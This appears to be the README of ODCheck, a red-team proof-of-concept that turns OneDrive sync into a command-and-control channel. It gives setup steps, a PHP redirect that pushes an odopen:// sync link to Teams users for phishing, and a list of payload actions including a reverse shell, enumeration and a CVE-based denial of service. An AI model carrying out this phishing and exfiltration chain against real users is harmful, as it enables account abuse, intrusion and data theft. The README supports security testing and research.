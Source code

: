 # DISCLAIMER:
This tool is to be used for educational purposes only. I do not take responsibility if you use this in any other way. 

It's a proof of concept solution that was created for https://collectingflags.com/research/file-extension-spoofing-in-microsoft-sharepoint-onedrive-and-teams/ If you use this for malicious reasons, you will most likely get caught. Don't do it.

# ODCheck

ODCheck is a C2-like proof-of-concept solution designed to evaluate systems against data exfiltration through OneDrive sync traffic. The ODOpen URL can be used for spear phishing in the Microsoft Teams desktop client to establish auto sync connections (with user interaction). 

If the connection is successful to an attacker controlled library and the user executes ODCheck, then further commands can be run on the machine based on the file names that are detected in the sync folder. The prebuilt tools and scripts available with ODCheck can help test for the following MITRE techniques:

| MITRE Technique             | ID |
| :---------------- | :------: |
| Exfiltration over C2 Channel        |   [T1041](https://attack.mitre.org/techniques/T1041/)   |
| Masquerading: Right-to-Left Override            |   [T1036.002](https://attack.mitre.org/techniques/T1036/002/)   |
| Modify Registry    |  [T1112](https://attack.mitre.org/techniques/T1112/)   |
| Automated Collection |  [T1119](https://attack.mitre.org/techniques/T1119/)   |
| Denial of Service | [T0814](https://attack.mitre.org/techniques/T0814/)  |
|Command and Scripting Interpreter: PowerShell| [T1059.001](https://attack.mitre.org/techniques/T0814/) |
|Ingress Tool Transfer | [T1105](https://attack.mitre.org/techniques/T1105/) |
|Web Service: Bidirectional Communication| [T1102.002](https://attack.mitre.org/techniques/T1102/002/)
<br/>

 **Setting Up ODCheck**
 
```
# You will need to have the PS2EXE PowerShell module installed 
Install-Module PS2EXE

# Copy the full ODCheck Folder from Github
git clone https://github.com/itssixtyn3in/ODCheck

# Run wizard.ps1 to start the configuration prompts
.\manager.ps1
```
ODCheck provides a few customization options from here that can be used, depending on what all you want to test.

- When configuring ODCheck, the file names that it watches for will be randomized and copied to the 'Payload' folder. If the files are dropped into the Sharepoint library, then the mapped commands will run once the file syncs. The setup will also require that you know the tenant and document library name that you will be using for the mutual sync connection. This information will be required to setup the sync connection to the correct local folder.

- The script will ask you for your preferred PowerShell reverse shell command and external script URL.

- If you want to package the file into an EXE with a custom icon, then just specify the file path for the .ico file. An example .ico file is available in the Icons folder.

![odcheck_usage](https://github.com/itssixtyn3in/ODCheck/assets/130003354/0824c20a-0c39-47d9-889a-2ebab659e127)

 <br/>

 **Establishing A Sync Connection**
 
 The Microsoft Teams client in it's default configuration allows users to add website tabs to private conversations, or Teams channels. The website tab option can be linked to external pages, which can be used as a jumping point to have users sync specific Sharepoint libraries using the ODOpen:// protocol handler. For further details regarding this please see https://collectingflags.com/research/file-extension-spoofing-in-microsoft-sharepoint-onedrive-and-teams/

 If you've taken over an Office 365 account with the permissions to create Sharepoint Sites and write Microsoft Teams messages, then you can retrieve the ODSync link the following way. 
- Create a new sharepoint library and upload a file
- In a browser open up your dev tools > network > click on the 'sync' button on the Sharepoint page to trigger the ODOpen command
- Copy the URL from the network section entry
  
 ![onedrive_link-1024x231](https://github.com/itssixtyn3in/ODCheck/assets/130003354/40d0c5a7-c598-4a7f-adfb-349c533b7724)

 Your link for the sync connection will look similar to this:
 ```
 odopen://sync?userId=&userEmail=user%40email%2Ecom&isSiteAdmin=1&siteId=%7B123456e2%2D77be%2D4e43%2D9301%2D2d6cc8d5f778%7D&webId=%7B88af89a5%2D547e%2D44e5%2Dbab9%2Dcf1b27958693%7D&webTitle=OneDriveHealthCheck&webTemplate=64&webLogoUrl=%2Fsites%2FOneDriveHealthCheck2%2F%5Fapi%2FGroupService%2FGetGroupImage%3Fid%3D%27bdbb85bc%2D127a%2D4d63%2D95a6%2Dadaaf1394c1b%27%26hash%3D638490900916829775&webUrl=https%3A%2F%2Fexample%2Esharepoint%2Ecom%2Fsites%2FOneDriveHealthCheck2&onPrem=0&libraryType=3&listId=95e13011%2D92c1%2D488b%2Db46f%2D6d7b7b31fe0b&listTitle=Documents&scope=OPENLIST
```
Upload the ODOpen URL in a PHP file on a webhost that you control. The PHP file content should look like the following:
```
<?php
header("Location: odopen://sync?userId=&userEmail=user%40email%2Ecom&isSiteAdmin=1&siteId=%7B123456e2%2D77be%2D4e43%2D9301%2D2d6cc8d5f778%7D&webId=%7B88af89a5%2D547e%2D44e5%2Dbab9%2Dcf1b27958693%7D&webTitle=OneDriveHealthCheck&webTemplate=64&webLogoUrl=%2Fsites%2FOneDriveHealthCheck2%2F%5Fapi%2FGroupService%2FGetGroupImage%3Fid%3D%27bdbb85bc%2D127a%2D4d63%2D95a6%2Dadaaf1394c1b%27%26hash%3D638490900916829775&webUrl=https%3A%2F%2Fexample%2Esharepoint%2Ecom%2Fsites%2FOneDriveHealthCheck2&onPrem=0&libraryType=3&listId=95e13011%2D92c1%2D488b%2Db46f%2D6d7b7b31fe0b&listTitle=Documents&scope=OPENLIST", true, 301);
exit;
?>
```
Add your newly hosted PHP page as a URL for the Microsoft Teams website tab

![website_tab](https://github.com/itssixtyn3in/ODCheck/assets/130003354/6f955b06-cebe-4b4f-89e3-e05ce6b25c7a)

If the user clicks on the website tab, then the sync connection is automatically established, including any files that are currently (or in the future) available.
<br/><br/>
**Running commands**

Once a sync connection has been set up to the Sharepoint Document Library and the ODCheck client has been executed, then commands can be executed by dropping the payload files into the shared sync folder. 

- Enumeration: Runs multiple Windows enumeration commands and returns the output into the sync folder.
- Reverse Shell: Attempts to run an external script that spawns a reverse shell.
- DOS Condition: Attempts to trigger CVE-2023-32214 which causes a blackscreen for the user if ms-cxh-full:// is available. The screen will reappear if the machine is restarted.
- External Scripts: Attempts to run an external PowerShell script for customization purposes.
- Tool Move: Attempts to move the specified file from the OneDrive folder into Downloads (or another specified folder if manually changed in the script)

https://github.com/itssixtyn3in/ODCheck/assets/130003354/36ea337f-ed2c-427e-9d4e-9628c812404f


